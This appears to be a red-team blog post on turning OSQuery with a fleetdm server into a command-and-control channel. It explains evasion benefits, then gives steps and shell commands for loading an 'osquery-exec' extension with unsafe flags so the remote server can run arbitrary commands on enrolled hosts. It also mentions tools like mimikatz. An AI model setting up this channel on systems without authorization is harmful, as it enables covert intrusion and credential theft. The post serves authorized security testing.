 ```yaml
---
layout: post
title: Offensive OSQuery
categories: [general]
tags: [redteam, c2, devops, infra]
description: Diving into how a traditionally defensive tool OSQuery can be used to perform red team testing at scale.
---
```


## What is OSQuery
OSQuery is an open-source endpoint visibility tool created by Meta. It allows administrators to query hosts across their organization like they would a SQL database. An example from the [osquery site](https://osquery.readthedocs.io/en/stable/introduction/using-osqueryi/):
```SQL
$ osqueryi
osquery> SELECT DISTINCT
osquery> SELECT DISTINCT
    ...>   process.name,
    ...>   listening.port,
    ...>   process.pid
    ...> FROM processes AS process
    ...> JOIN listening_ports AS listening
    ...> ON process.pid = listening.pid
    ...> WHERE listening.address = '0.0.0.0';

+----------+-------+-------+
| name     | port  | pid   |
+----------+-------+-------+
| Spotify  | 57621 | 18666 |
| ARDAgent | 3283  | 482   |
+----------+-------+-------+
osquery>
```

OSQuery is commonly run with a centralized server that all the agents check-in to. While there isn't an official open-source OSQuery server a number of alternative servers exist like [Kollide](https://github.com/kolide) and [fleetdm](https://github.com/fleetdm/fleet) . For this blog we'll be using a cloud managed fleetdm instance given it's ease to setup.

## Why OSQuery is a good c2.
- Evasion - As a legitimate tool for systems administration and corporate security OSQuery isn't detected as malicious.
- Scale - Many c2 frameworks don't scale (some falling over irrecoverably at 50 callbacks a minute) or design their workflows for scale. As a tool designed to manage entire corporations OSQuery and it's servers are designed to operate at scale and help the user queue tasks at scale.
- Robust recon features - OSQuery supports a number of tables that you can query of of the box.
	- [crontab](https://osquery.io/schema/5.8.2/#crontab)
	- [curl](https://osquery.io/schema/5.8.2/#curl)
	- [drivers](drivers)
	- [file](https://osquery.io/schema/5.8.2/#file)
	- [logged_in_users](https://osquery.io/schema/5.8.2/#logged_in_users)
	- [user_ssh_keys](https://osquery.io/schema/5.8.2/#user_ssh_keys)

The downside to OSQuery out of the box is it doesn't support arbitrary command execution making executing new tools, or more complicated memory based tools like mimikatz challenging. To get around this limitation though we can load a custom extension into our OSQuery agent. In the next section we'll load a custom extension to execute arbitrary shell commands.

## How

- Signup for a free trial of fleetdm
	1. https://fleetdm.com/try-fleet/register
	2. Setup an account and login.
- Adding hosts
	1. Once logged in Click "Add hosts"
	2. Select your hosts OS
	3. Unselect include Fleet Desktop
	4. Copy the installer package onto the target host.
	5. Install the package
		1. You may have issues getting things to run I wasn't able to install it a service in my container and had to manually run it.

```bash
cat /etc/default/orbit
source /etc/default/orbit
/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL --enroll-secret $ORBIT_ENROLL_SECRET --debug

ctrl-c to exit.
```

- Build the extension
	1. `git clone https://github.com/hulto/osquery-exec.git`
	2. `cd osquery-exec`
	3. `go build -o exec.ext ./`
- Setup the `osquery-exec` plugin.
	1. Stop the running instance of orbit
	2. Fill out the `/opt/orbit/osquery.flags` file

```bash
--extensions_timeout=3
--extensions_interval=3
--allow_unsafe
```
- Install the `osquery-exec` plugin.
    1. Upload our extension to the remote host `mkdir /test && cp /tmp/exec.ext /test/exec.ext`
    2. Add our extension to those that will be loaded
        1. `echo "/test/exec.ext" > /etc/osquery/extensions.load`
- Restart the orbit agent
	1. `/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL`
- Execute commands 🥳

<figure class="aligncenter">
    <img src="/assets/png/osquery-cmdexec-whoami.png" />
    <figcaption>Figure 1. - OSQuery cmdexec results in fleetdm webui</figcaption>
</figure>

